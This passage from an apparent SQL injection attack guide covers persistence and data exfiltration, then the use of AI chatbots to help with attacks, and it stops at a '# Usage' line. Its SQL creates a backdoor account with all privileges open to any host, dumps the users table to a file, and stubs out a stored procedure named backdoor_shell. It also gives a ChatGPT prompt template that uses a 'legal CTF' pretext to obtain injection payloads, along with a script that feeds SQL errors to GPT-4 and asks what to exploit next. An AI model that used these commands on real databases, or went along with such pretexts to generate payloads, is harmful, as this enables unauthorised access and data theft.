 #### 5.4 Persistence & Data Exfiltration

```sql
-- Create backdoor user (if privileges allow)
CREATE USER 'backdoor'@'%' IDENTIFIED BY 'secret_password';
GRANT ALL PRIVILEGES ON *.* TO 'backdoor'@'%';

-- Export data
SELECT * FROM users INTO OUTFILE '/tmp/users_dump.txt';

-- Create malicious stored procedure
DELIMITER //
CREATE PROCEDURE backdoor_shell()
BEGIN
    -- Backdoor logic
END //
DELIMITER ;
```

---

### 6. AI INTEGRATION STRATEGIES

#### 6.1 AI for Payload Generation

**ChatGPT Prompt Template:**
```
I'm testing a MySQL database for SQL injection vulnerabilities in a legal CTF environment.

Target: Login form with username and password fields
Context: [describe what you've found so far]
Goal: [describe what you want to achieve]

Generate optimized SQL injection payloads that:
1. [specific requirement 1]
2. [specific requirement 2]
3. Explain why each payload works
```

#### 6.2 AI for Error Analysis

**Script: ai_error_analyzer.py**
```python
import openai

def analyze_sql_error(error_message):
    prompt = f"""
    I received this SQL error during penetration testing:

    {error_message}

    1. What does this error reveal about the database structure?
    2. What information can I extract from this error?
    3. What should be my next payload to exploit this?
    4. Are there any security implications?
    """

    response = openai.ChatCompletion.create(
        model="gpt-4",
        messages=[{"role": "user", "content": prompt}]
    )

    return response.choices[0].message.content

# Usage
```